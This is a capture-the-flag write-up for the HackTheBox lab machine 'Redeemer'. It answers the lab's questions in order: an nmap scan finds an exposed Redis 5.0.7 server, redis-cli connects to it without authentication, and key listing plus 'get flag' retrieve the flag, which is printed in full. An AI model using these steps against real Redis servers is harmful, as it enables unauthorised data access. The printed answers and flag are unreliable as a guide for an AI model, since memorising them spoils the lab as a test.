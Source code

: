 ```yaml
---
title: HTB - Redeemer 
date: 2023-08-01
categories: [HackTheBox, Machines]
tags: [redis]
---
```


# Redeemer

_Which TCP port is open on the machine?_

```bash
$ nmap -sC -sV <ip>
no port open

$ nmap -sC -sV -p- <ip>
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

_Which service is running on the port that is open on the machine?_

`Redis`

_What type of database is Redis?_

`In-memory Database`

_Which command-line utility is used to interact with the Redis server?_

`redis-cli`

_Which flag is used with the Redis command-line utility to specify the hostname?_

`-h <hostname>`

_Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?_

```bash
$ redis-cli -h <hostname> -p <port>
hostname:port> info
```

_What is the version of the Redis server being used on the target machine?_

`5.0.7`

_Which command is used to select the desired database in Redis?_

`select`

_How many keys are present inside the database with index 0?_

```bash
hostname:port> info
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
...
```

_Which command is used to obtain all the keys in a database?_

`keys *`

_Submit root flag_

```bash
hostname:port> keys * 
1) "temp" 
2) "stor" 
3) "numb" 
4) "flag" 
hostname:port> keys 4 
(empty array) 
hostname:port> keys flag 
1) "flag" 
hostname:port> get flag 
"03e1d2b376c37ab3f5319922053953eb"
```
